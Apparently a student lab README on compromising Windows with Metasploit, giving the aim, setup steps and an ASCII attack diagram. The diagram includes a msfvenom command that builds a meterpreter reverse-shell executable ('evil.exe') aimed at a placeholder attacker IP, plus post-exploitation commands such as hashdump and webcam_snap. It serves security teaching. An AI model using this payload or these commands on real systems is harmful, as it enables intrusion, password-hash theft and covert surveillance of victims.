 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By ARUNKUMAR S A (212223220009)

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+

```